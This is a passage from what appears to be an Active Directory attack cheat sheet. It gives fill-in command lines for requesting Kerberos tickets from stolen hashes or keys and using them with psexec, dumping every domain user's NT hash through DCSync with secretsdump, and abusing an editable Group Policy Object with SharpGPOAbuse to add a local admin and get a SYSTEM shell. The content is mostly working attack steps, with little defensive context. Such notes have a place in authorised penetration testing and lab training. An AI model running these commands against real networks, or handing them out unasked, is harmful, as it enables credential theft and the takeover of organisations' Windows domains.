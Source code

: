 **Requirements**:
- *local admin* user required to extract Kerberos keys from the memory of the LSASS process

**Steps**:
1. TGT request:
	- *via hash*: `python3 getTGT.py <DOMAIN NAME>/<USERNAME> -dc-ip <IP DC> -hashes :<NT HASH>`
	- *via AES key*: `python3 getTGT.py <DOMAIN NAME>/<USERNAME> -dc-ip <IP DC> -aesKey <AES KEY>`
	- *via password*: `python3 getTGT.py -dc-ip <IP DC> <DOMAIN NAME>/<USERNAME>:<PASSWORD>`
2. specific TGT chosen
	- `export KRB5CCNAME=</path/to/TGT.ccache>`
3. ticket usage (to abuse the ticket in memory communicate with the target via ***hostname***. Use of "hostname" force Kerberos authentication) - example: `python3 psexec.py -debug -no-pass -dc-ip <IP DC> -target-ip <IP TARGET> -k <DOMAIN NAME>/<USERNAME>@<HOSTNAME TARGET>.<DOMAIN NAME>`

## DCSync

The attack, if the pre-requisites are met, allows NT hashes of any domain user to be obtained.

**Requirements**:
- user who is a member of the **Domain Admins** or **Enterprise Admins** or **Administrators** or **Domain Controllers** groups or user with the following privileges: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes** in **Filtered Set**.

**Steps**:
1. remote attack:
	- *via pass the password*:
		- `python3 secretsdump.py -outputfile 'dcsync.txt' '<DOMAIN NAME>/<USERNAME>:<PASSWORD>@<IP DC>'`
		- (*single user*) `python3 secretsdump.py -just-dc-user <WE_WANT_NTHASH_OF_THIS_USERNAME> '<DOMAIN NAME>/<USERNAME>:<PASSWORD>@<IP DC>'`
	- *via pass the hash*:
		- `python3 secretsdump.py -outputfile 'dcsync.txt' -hashes '<LM hash>':'<NT hash>' '<DOMAIN NAME>/<USERNAME>@<IP DC>'`
2. from within: *mimikatz*

## GPOabuse

Enumeration (*PowerView*):
- All GPOs
	- `Get-NetGpo | select DisplayName, whenchanged`
- detailed info about a GPO
	- `Get-GPO -Name "<DISPLAY NAME GPO>"`
- permissions of our user on the GPO
	- `Get-GPPermission -Guid "<ID GPO>" -TargetType User -TargetName <USER OWNED>`

*Abusing*: we assume that the permission is `GpoEditDeleteModifySecurity`. This means that we can edit the GPO! The tool to use is: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse).

Exploitation:
- add a *local admin* user: 
	1. `.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <USER OWNED> --GPOName "<VULNERABLE GPO>"`
	2. `gpupdate /force`
	3. access with *psexec* to get a SYSTEM shell
